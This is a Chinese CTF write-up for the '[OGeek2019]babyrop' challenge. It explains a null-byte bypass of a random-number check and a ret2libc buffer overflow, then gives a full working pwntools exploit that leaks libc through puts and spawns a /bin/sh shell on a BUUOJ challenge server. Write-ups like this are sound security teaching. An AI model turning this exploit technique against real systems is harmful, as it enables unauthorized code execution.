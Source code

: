 ```yaml
---
title: "[OGeek2019]babyrop"
description: ""
date: 2023-04-07T00:16:37+08:00
lastmod: 2023-04-07T00:16:37+08:00
draft: false
images: []
type: docs
weight: 991
toc: true
---
```


## 0x01 分析

main函数主要就是读取一个随机数

![cf272a808a7811746af8834c2384af55](images/cf272a808a7811746af8834c2384af55.png)  

然后让我们输入和给定的随机数进行比较

![9201263ba3d26ed43e867c896f8d9957](images/9201263ba3d26ed43e867c896f8d9957.png)  

我们可以直接在开头输入 `\x00` 进行截断，绕过比较，然后返回的buf\[7\]的值会作为下一个函数的参数

![6e1636b6eccfded62f9a8cc5b63bb9ea](images/6e1636b6eccfded62f9a8cc5b63bb9ea.png)  

只要buf\[7\]的值够的就可以造成溢出，然后就是正常的ret2libc了

## 0x02 Exploit

```python
from pwn import*
context.log_level = 'debug'
# o = process("./pwn")
o = remote("node4.buuoj.cn", 29781)
elf = ELF("./pwn")
libc = ELF("./libc-2.23.so")
puts_plt = elf.plt['puts']
read_got = elf.got['read']
main = 0x8048825

# leak libc
key = b"\x00" + b"\xff"*7
o.sendline(key)
o.recv()
payload = b'a'*(0xe7+4) + p32(puts_plt) + p32(main) + p32(read_got)
o.sendline(payload)
read_addr = u32(o.recv(4))
libc_base = read_addr - libc.sym["read"]
log.info(hex(libc_base))
sys_addr = libc_base + libc.sym["system"]
bin_sh = libc_base + next(libc.search(b"/bin/sh"))

# attack
o.sendline(key)
payload = b'a'*(0xe7+4) + p32(sys_addr) + p32(main) + p32(bin_sh)
o.sendline(payload)
o.interactive()
```

![288c4b6845267a9430c590cca1822169](images/288c4b6845267a9430c590cca1822169.png)  

自行调试
